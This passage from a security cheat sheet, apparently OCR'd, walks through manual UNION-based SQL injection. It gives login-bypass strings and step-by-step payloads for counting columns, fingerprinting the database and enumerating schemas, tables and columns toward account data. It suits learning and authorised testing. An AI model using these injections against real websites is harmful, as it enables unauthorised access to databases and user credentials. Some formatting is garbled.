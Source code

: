     ```text
    '||1=1#
    '||'a'='a'#
    ```
* Identify the number of columns in the current table by adding an additional value for each request \(1 then 1,2 then 1,2,3\).

  ```text
  .... ORDER BY 1,2,3,4,5,6....
  ```

* Once you get to a number that results in an error on the page, the total number of columns is less than the number that resulted in the error \(if it errored out on 7, then there are 6 columns in the current table\).
* Identify which columns show information on the screen. 

  ```text
  ... UNION ALL SELECT 1,2,3,4,5,6
  ```

* Which numbers of 1 - 6 show on the page is where we are going to put the query part of the payload \(We'll use 3 for rest of example\) 
* Fingerprint the DB 

  ```text
  ... UNION ALL SELECT 1,2,[version payload],4,5,6
  ```

* Identify current user you're issuing commands for 

  ```text
  .... UNION ALL SELECT 1,2,[current user payload],4,5,6
  ```

* List the current datbase you're working in 

  ```text
  ... UNION ALL SELECT 1,2,[current database payload],4,5,6
  ```

* List all of the databases available in the current view \(assuming MySQL for the rest - check cheat sheet for syntax\) 

_\*_NOTE: You may have to change the 1,2,etc. numbers in this command to null value to have the FROM syntax work in the injection tests after this step.

```text
... UNION ALL SELECT 1,2,[schema_name],4,5,6 FROM [information_schema.schemata]
```

1. List the tables available in the current database 

   ```text
   ... UNION ALL SELECT 1,2,[table_name],4,5,6 FROM [information_schema.tables]
   ```

2. Identify a table of interest that has account information. Then list the columns available in the that table 

   '''

   ... UNION ALL SELECT 1,2,\[column\_name\],4,5,6 FROM \[information\_schema.columns\] WHERE \[table\_name=\[table of interest\]\] 
